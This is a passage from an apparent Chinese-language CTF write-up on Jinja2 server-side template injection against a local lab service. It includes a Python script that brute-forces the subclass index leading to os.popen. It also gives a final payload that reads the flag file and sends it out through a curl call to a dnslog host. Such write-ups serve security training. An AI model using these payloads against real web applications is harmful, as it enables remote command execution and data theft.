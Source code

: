 ```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/3"
        data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://`cat flag`.o78kma.dnslog.cn").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)
        #print(res.text)
        if 'correct' in res.text:
            print(i)

    except:
        pass
```

说是脚本，其实也就是在找到`os._wrap_close`类之后执行了一个 curl 语句而已，我们在知道这个类的位置后，可以直接进行攻击，构造如下 payload

```plain
{{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__["popen"]("curl http://`cat flag`.o78kma.dnslog.cn").read()}}
```

[![在这里插入图片描述](assets/1698900310-54bcd699b1f935f8ac53c5d869cd7941.png)](https://storage.tttang.com/media/attachment/2022/08/14/c9bc0e7e-cb6d-4f79-a456-fa55f738c112.png)

[![在这里插入图片描述](assets/1698900310-77a2afbfe226151e09b853fd8aa7e7dd.png)](https://storage.tttang.com/media/attachment/2022/08/14/63195210-5f10-4d2e-8ec8-7cedd8b7141c.png)

